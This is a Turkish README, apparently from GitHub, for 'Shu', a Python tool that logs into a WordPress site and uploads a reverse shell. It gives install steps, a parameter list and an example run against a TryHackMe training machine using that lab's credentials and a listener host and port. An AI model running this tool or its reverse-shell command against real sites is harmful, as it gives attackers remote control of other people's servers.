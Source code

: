 # Shu
Shu, hazır içerik yönetim sistemlerinin zayıflıklarından yararlanarak reverse shell yükleyen bir programdır.

## Programın indirilmesi ve kurulması

```
git clone https://github.com/Narisca/Shu/
cd Shu
pip3 install -r requirements.txt
```

Bu komutları kullanarak programı indirip kurduktan sonra `python3 shu.py --help` komutunu kullanarak programı nasıl çalıştırabileceğinizi öğrenebilirsiniz.

![4](https://github.com/Narisca/Shu/assets/165813191/0efbd39a-d976-461d-ba17-b329aa65b53f)

## Örnek kullanm

Örnek olması amacıyla tryhackme.com platformunda bulunan mr.robot makinesi üzerinde deneyeceğim.

```
python3 shu.py --target http://10.10.236.255/wp-login.php --username elliot --password ER28-0652 --local-host 10.9.0.25 --local-port 4444 --plugin wordpress
```

![3](https://github.com/Narisca/Shu/assets/165813191/9a0ddbf2-1965-4322-affb-a1086365f3ce)

## Parametreler

```
--target-url,  -t    : Hedef sitenin giriş sayfasını belirtmenizi sağlar.
--plugins,     -x    : Hedef sitenin içerik yönetim sistemini belirtmenizi sağlar..
--username,    -u    : Kullanıcı adını belirtmenizi sağlar.
--password,    -p    : Kullanıcı şifresini belirtmenizi sağlar.
--local-host,  -L    : Yerel ağ adresinizi belirtmenizi sağlar.
--local-port,  -P    : Dinlenilen port'u berlirtmenizi sağlar.
```

## Kullanılabilir hazır içerik yönetim sistemleri
- wordpress
